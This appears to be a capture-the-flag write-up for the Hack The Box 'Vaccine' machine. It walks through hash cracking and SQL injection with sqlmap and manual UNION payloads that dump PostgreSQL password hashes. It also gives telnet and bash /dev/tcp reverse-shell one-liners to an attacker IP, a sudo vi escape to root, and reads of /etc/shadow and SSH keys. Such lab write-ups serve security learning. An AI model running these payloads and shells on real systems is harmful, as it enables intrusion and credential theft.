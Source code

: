 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  

![alt text](./img/vaccine.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/vaccine01.PNG?raw=true)  

![alt text](./img/vaccine02.PNG?raw=true)  

Let’s try to use the credentials found in the OOPSIE machine  
![alt text](./img/vaccine03.PNG?raw=true)  
  
Here we can only find one zip file. Let’s get it and try to unzip  
![alt text](./img/vaccine04.PNG?raw=true)  

This was unexpected…..however this password can be easily cracked with John…  
![alt text](./img/vaccine05.PNG?raw=true)  

Using the password we can unzip the file and get 2 other files: index.php and style.css  
Inside the index.php file we can find a username and a password hash  
![alt text](./img/vaccine06.PNG?raw=true)  

This hash is easier to crack, just use [crackstation](https://crackstation.net/)  
![alt text](./img/vaccine07.PNG?raw=true)  

Now we can login and access the server  

## Exploit  
![alt text](./img/vaccine08.PNG?raw=true)  

Here the SEARCH param is vulnerable to sqli  
![alt text](./img/vaccine09.PNG?raw=true)  
  
Here we can use SQLMAP or do the SQLi manually.  
> SQLMAP  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --dbs  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog --tables  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog -T pg_authid --dump  
![alt text](./img/vaccine10.PNG?raw=true)  

> Manually  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--  
![alt text](./img/vaccine12.PNG?raw=true)  

I tried crack this hash with john and hashcat, however a quick google search could saved some time  
![alt text](./img/vaccine11.PNG?raw=true)  

With this credential we can connect to port 22 of this server:  
PS: we could use the sqlmap flag --os-shell to gain a shell and after gain an upgraded reverse shell with the next commands. However i lost the connection sometimes with this method  
- sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --os-shell  
- Attacker box: nc -nvlp 1234  
- Victim box: RHOST=10.10.16.82; RPORT=1234; TF=$(mktemp -u); mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF &  
- Attacker box: nc -nvlp 4444  
- Victim box: bash -c 'exec bash -i &>/dev/tcp/10.10.16.82/4444 <&1' &  

![alt text](./img/vaccine13.PNG?raw=true)  
HABEMUS SHELL \o/

## Privesc  
![alt text](./img/vaccine14.PNG?raw=true)  

Look’s like we can run the command “/bin/vi /etc/postgresql/11/main/pg_hba.conf” as sudo, so we can get root:  
- sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  
- PRESS ESC KEY  
- :set shell=/bin/sh
- :shell  
![alt text](./img/vaccine15.PNG?raw=true)  

## Discoveries  
cd /var/lib/postgresql/.ssh  
![alt text](./img/vaccine17.PNG?raw=true)  

/etc/shadow  
![alt text](./img/vaccine16.PNG?raw=true)  
